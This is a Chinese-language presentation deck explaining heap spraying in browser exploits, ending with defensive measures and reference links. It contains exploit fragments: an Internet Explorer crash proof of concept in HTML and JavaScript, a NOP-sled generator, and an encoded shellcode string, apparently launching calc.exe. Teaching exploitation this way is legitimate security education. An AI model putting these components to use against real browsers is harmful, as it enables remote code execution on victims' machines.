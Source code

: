 title: Heap Spray and its application on browser exploits
speaker: 杜小东
transition: slide3
files: https://o71zxeens.qnssl.com/cdn/ppt/jl/full-screen.js
theme: moon
usemathjax: yes

[slide]
<button onclick="fullScreen()" class="btn btn-default" style="cursor: pointer;position:fixed;left:10px;top:10px;"></button>
# Heap Spray and its application on browser exploits

[slide]
## 什么是 Heap Spray
* 使用大量 NOP，申请大量的内存，超过系统内存的特定值，即可实现在目标进程的内存中预定的位置写入一串命令

[slide]
## 有什么危害
* 执行恶意代码 {:&.rollIn}
* 恶意执行程序

[slide]
## 产生方式(Browser)
----
* large strings
* loading image files into the process
* use the low-level bitmap interface offered by the canvas API, and web workers
* [Array](https://cansecwest.com/slides/2014/The%20Art%20of%20Leaks%20-%20read%20version%20-%20Yoyo.pdf)
* [wiki](https://en.wikipedia.org/wiki/Heap_spraying)

[slide]
## 怎么攻击
----
* Crash PoC {:&.rollIn}
* NOP
* Shellcode

[slide]
## PoC(Proof of Concept)
---
```html
<body>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
</body>
```
```javascript
function crash(i) {
  numsploits = numsploits + 1
  t = document.getElementsByTagName("table")[i]
  t.parentNode.runtimeStyle.posWidth = -1
  t.focus()
}
```

[slide]
## NOP
----
```javascript
function nop() {
  var nops = ''
  var nops_size = 216
  for(var i = 0; i < nops_size; i++) { 
    nops += 'A' 
  }
  return nops
}
```

[slide]
## Shellcode
* Shellcode 是指能完成特殊任务的自包含的二进制代码

----
```
var shellcode = unescape("%uc92b%u1fb1%u0cbd%uc536%udb9b%ud9c5%u2474%u5af4%uea83%u31fc%u0b6a%u6a03%ud407%u6730%u5cff%u98bb%ud7ff%ua4fe%u9b74%uad05%u8b8b%u028d%ud893%ubccd%u35a2%u37b8%u4290%ua63a%u94e9%u9aa4%ud58d%ue5a3%u1f4c%ueb46%u4b8c%ud0ad%ua844%u524a%u3b81%ub80d%ud748%u4bd4%u6c46%u1392%u734a%u204f%uf86e%udc8e%ua207%u26b4%u04d4%ud084%uecba%u9782%u217c%ue8c0%uca8c%uf4a6%u4721%u0d2e%ua0b0%ucd2c%u00a8%ub05b%u43f4%u24e8%u7a9c%ubb85%u7dcb%ua07d%ued92%u09e1%u9631%u5580")
```

[slide]
## 怎么攻击
----
* Crash PoC
* NOP
* Shellcode
* 为什么需要 NOP ?(需要精确命中 Shellcode)

[slide]
## 任意内存地址读取
----
* 通过找到 Array 后面的一个紧邻的 String 对象的内存，然后覆盖这个对象的缓冲区指针域和大小域来实现读取任意内存

[slide]
## 控制 RIP(指令指针)
----
* 通过覆盖附近 Array 对象的虚函数表(vtable)指针并调用虚函数来控制 RIP，例如计算器指令
* [vtable](https://github.com/jayzeng/The-Art-Of-Programming-by-July/blob/master/ebook/zh/08.0.md)

[slide]
## 总结与预防
----
* 浏览器上的 Heap Spray 需要利用一个浏览器漏洞，然后非正常地制造堆溢出的代码来覆盖目标进程的内存
* 对包含大量重复值的字符串和数组等重复申请堆的时候，可以记录堆的大小、内容和数量，如果这些重复的堆请求到达了一个阀值或者覆盖了指定的地址（譬如几个敏感地址0x0C0C0C0C，0x0D0D0D0D等等），立即阻止这个脚本执行过程并弹出警告
* 对常见的 JavaScript 对象的虚函数表进行保护
* 使用现代浏览器(用户)

[slide]
## 疑问
* Shellcode 是怎么转化为 系统命令(调用 calc.exe)?
* Shellcode 怎么编写?

[slide]
## 参考链接
----
* [wiki](https://en.wikipedia.org/wiki/Heap_spraying)
* [NOP](https://zh.wikipedia.org/wiki/NOP)
* [Exploiting Internet Explorer 11 64-bit on Windows 8.1 Preview](http://ifsec.blogspot.com/2013/11/exploiting-internet-explorer-11-64-bit.html)
* [calc.exe shellcode](https://github.com/peterferrie/win-exec-calc-shellcode)

* http://drinkey.github.io/%E7%BC%96%E7%A8%8B%E6%8A%80%E6%9C%AF/2014/03/24/hello-shellcode/

* http://www.360doc.com/content/10/1102/19/2648643_66047788.shtml
* http://blog.csdn.net/magictong/article/details/7391397
* http://stackoverflow.com/questions/381171/help-me-understand-this-javascript-exploit
* https://github.com/exp-sky
* https://www.corelan.be/index.php/2011/12/31/exploit-writing-tutorial-part-11-heap-spraying-demystified/

